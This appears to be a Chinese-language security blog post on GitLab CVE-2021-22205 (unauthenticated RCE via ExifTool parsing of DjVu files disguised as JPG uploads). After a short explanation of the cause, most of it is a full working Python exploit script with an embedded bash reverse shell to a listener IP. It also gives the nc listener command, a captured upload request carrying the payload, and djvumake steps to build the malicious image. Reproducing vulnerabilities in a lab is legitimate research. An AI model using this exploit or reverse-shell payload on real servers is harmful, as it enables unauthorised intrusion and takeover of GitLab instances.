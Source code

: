 ```yaml
---
title: GitLab漏洞-CVE-2021-22205
date: 2024-03-11 00:46 +0800
categories: [web,服务攻防] 
tags: [cms,GitLab,CVE]
img_path: /img/web/
---
```

## 0x00 漏洞简介

在 GitLab CE/EE 中发现了一个问题，影响了从 11.9 开始的版本。GitLab 没有正确验证传递给文件解析器的图像文件，这导致了未经身份验证的远程命令执行。

**漏洞影响版本：**

> 11.9 <= Gitlab CE/EE < 13.8.8
> 
> 13.9 <= Gitlab CE/EE < 13.9.6
> 
> 13.10 <= Gitlab CE/EE < 13.10.3
{: .prompt-info}

#### 1、gitlab介绍

GitLab是由GitLabInc.开发，使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

![截图](53f251f94670a4aec3de59c5c0d2912f.png)

可以看到在gitlab的组成中包含的各种组件，可以通过两个关键入口访问，分别是HTTP/HTTPS(TCP 80,443)和SSH(TCP 22)，请求通过nginx转发到Workhorse，然后Workhorse和Puma进行交互，这里我们着重介绍下通过Web访问的组件GitLab Workhorse。

> Puma 是一个用于 Ruby 应用程序的简单、快速、多线程和高度并发的 HTTP 1.1 服务器，用于提供GitLab网页和API。从 GitLab 13.0 开始，Puma成为了默认的Web服务器，替代了之前的Unicorn。而在GitLab 14.0中，Unicorn 从Linux 包中删除，只有Puma可用。

而漏洞的成因就在于`Gitlab Workhorse`处理文件的过程中。

#### 2、漏洞成因

当我们利用接口`/uploads/user`上传图像文件时，`GitLab Workhorse`会将扩展名为`jpg、jpeg、tiff`文件传递给`ExifTool`。而`ExifTool`作用在于删除其中不合法的标签。而`ExifTool`在解析文件的时候会忽略文件的扩展名，尝试根据文件的内容来确定文件类型，其中支持的类型有DjVu。

> DjVu是由AT&T实验室自1996年起开发的一种图像压缩技术，已发展成为标准的图像文档格式之一;
> 
> ExifTool是一个独立于平台的Perl库，一款能用作多功能图片信息查看工具。可以解析出照片的exif信息，可以编辑修改exif信息，用户能够轻松地进行查看图像文件的EXIF信息，完美支持exif信息的导出。
{: .prompt-info}

关键在于ExifTool在解析DjVu注释的ParseAnt函数中存在漏洞，所以我们就可以通过构造DjVu文件并插入恶意注释内容将其改为jpg后缀上传，因为gitlab并未在这个过程中验证文件内容是否是允许的格式，最后让ExifTool以DjVu形式来解析文件，造成了ExifTool代码执行漏洞。

以上的内容参考自： [AirSky](https://mp.weixin.qq.com/s/Y4mGVhbc3agp1adnUs1GmA)

## 0x01 漏洞复现

我是利用vulfocus搭建环境进行复现。

这里,我们可以直接利用网上开源的一些脚本:

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-
import requests
from bs4 import BeautifulSoup

class Exploit():
    __info__ = {
        'name': 'CVE-2021-22205',
        'desription': 'gitlab 未授权远程命令执行',
        'references': ['https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22205'],
        'devices': ['gitlab',
                    '11.9=< version <13.8.8',
                    '13.9=< version <13.9.6',
                    '13.10=< version <13.10.3'
        ],
    }


    target = "192.168.31.38"
    port = 43536
    reverseShell = "echo '/bin/bash -i >& /dev/tcp/{}/{} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"

    def exploit(self):
        proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}
        session = requests.Session()
        session.proxies = proxies
        requests.packages.urllib3.disable_warnings()
        url = "http://{}:{}".format(self.target, self.port)
        try:
            r = session.get(url.strip("/") + "/users/sign_in", verify=False)
            soup = BeautifulSoup(r.text, features="lxml")
            token = soup.findAll('meta')[16].get("content")
            data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{" + self.reverseShell + "} . \\\n\" b \") )                                                                                                                                                                                                                                                                                                                                                                                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"
            headers = {
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
                "Connection": "close",
                "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
                "X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}
            flag = 'Failed to process image'
            req = session.post(url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)
            print(session.body)
            x = req.text
            if flag in x:
                return "success!!!"
            else:
                print("[-] Vuln Check Failed... ...")
                return 'failed'
        except Exception as error:
            print(error.with_traceback())
            print("[-] Vuln Check Failed... ...")
            return 'failed'

    def run(self):
        res = self.exploit()
        return res

if __name__ == '__main__':
    exploit = Exploit()
    '''
    在GitLab CE/EE中发现一个问题，从11.9开始影响所有版本。
    GitLab没有正确地验证传递给文件解析器的图像文件，导致远程命令执行
    此脚本利用此漏洞进行反弹shell, 测试前请配置好下面的 listenIp 和 listenPort 参数
    '''
    exploit.target= "192.168.31.38" # 目标服务器
    exploit.port = 43536      # 目标端口
    listenIp = "192.168.31.38" # 本地监听ip
    listenPort = "6666"   # 本地监听端口
    exploit.reverseShell = exploit.reverseShell.format(listenIp,listenPort)
    result = exploit.run()
    print(result)

```
{: file='1.py'}

这里,我们只需要修改一下利用地址和端口 ；还有本地监听的地址和端口。

然后，我们需要利用nc监听本地端口：

```bash
nc.exe -lvnp 6666
```

然后启动脚本：

```bash
python 1.py
```

之后，就可以可以看到shell的反弹了。

## 0x02 脚本代码分析

这里，我截下流量包的图片，以便我们可以看到脚本代码中发送的流量情况：

```sass
POST /uploads/user HTTP/1.1
Host: 192.168.31.38:43536
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5
X-CSRF-Token: BYGxDBZjz3NG0PKDN1lK1fMagmzwzsPNyod+zPUBYlYL9rGDbXJDAS6JJCBMGxQNKD/PIpool1nVPBv159zTew==
Cookie: _gitlab_session=addf2bf61cd6e800858774f8cb8ea0a7; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkltUTVOekk0TVRZMUxUTXdObU10TkRkaVpDMWlOemN6TFRSaE5XWmxNREpqTXpWbU5DST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--70dccc24ff47022870ee986c26295ba243fc285e
Content-Length: 971


------WebKitFormBoundaryIMv3mxRg59TkFSX5
Content-Disposition: form-data; name="file"; filename="test.jpg"
Content-Type: image/jpeg

AT&TFORM  疍JVMDIRM   .?    F   ?蘅?!葢N? 亿堣k鍰,q領觧暯⒚"?FORM   ^DJVUINFO   
   d  INCL   shared_anno.iff BG44    J  婃岜7?*? BG44   鶡BG44   
FORM   DJVIANTa  P(metadata
	(Copyright "\
" . qx{echo '/bin/bash -i >& /dev/tcp/192.168.31.38/6666 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh} . \
" b ") )                                                                                                                                                                                                                                                                                                                                                                                                                                     

------WebKitFormBoundaryIMv3mxRg59TkFSX5--
```
{: file='数据包'}

![截图](8f00070c63b3c49d089da52c0b7ed354.png)

然后，从图中可以看到，这里我们利用的上传接口确实是`/uploads/user`，除此之外，代码本身还通过获取`X-CSRF-Token`和未登录`Session`来进行未授权访问。

而上传的数据包内容，则是一个DjVu文件的内容格式，其中还包含了我们注释的恶意代码内容，以便让`ExifTool`完成最终的代码执行。

当然，这里我们也已直接使用`DjVu`来创建我们的恶意代码。用法：（在kali中）

```shell
sudo apt-get install -y djvulibre-bin
```

准备好恶意文本：

```sass
(metadata
	(Copyright "\
"  qx{echo '/bin/bash -i >& /dev/tcp/{}/{} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh} . \
" b ") )
```{: file='cve.txt'}

制作`DjVu`图片格式：

```shell
djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg
```

最终jpg里的内容为：
![截图](20240311003341298.png)

